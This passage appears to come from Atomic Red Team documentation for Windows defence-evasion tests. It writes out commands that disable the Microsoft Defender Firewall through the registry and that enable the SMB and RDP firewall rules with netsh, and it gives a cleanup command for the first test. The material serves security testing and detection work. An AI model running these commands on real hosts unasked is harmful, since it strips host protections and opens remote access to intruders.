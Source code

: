 



<br/>
<br/>

## Atomic Test #2 - Disable Microsoft Defender Firewall via Registry
Disables the Microsoft Defender Firewall for the public profile via registry
Caution if you access remotely the host where the test runs! Especially with the cleanup command which will re-enable firewall for the current profile...

**Supported Platforms:** Windows


**auto_generated_guid:** afedc8c4-038c-4d82-b3e5-623a95f8a612






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile" /v "EnableFirewall" /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\PublicProfile" /v "EnableFirewall" /t REG_DWORD /d 1 /f
```





<br/>
<br/>

## Atomic Test #3 - Allow SMB and RDP on Microsoft Defender Firewall
Allow all SMB and RDP rules on the Microsoft Defender Firewall for all profiles.
Caution if you access remotely the host where the test runs! Especially with the cleanup command which will reset the firewall and risk disabling those services...

**Supported Platforms:** Windows


**auto_generated_guid:** d9841bf8-f161-4c73-81e9-fd773a5ff8c1






#### Attack Commands: Run with `command_prompt`! 


```cmd
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="file and printer sharing" new enable=Yes
```
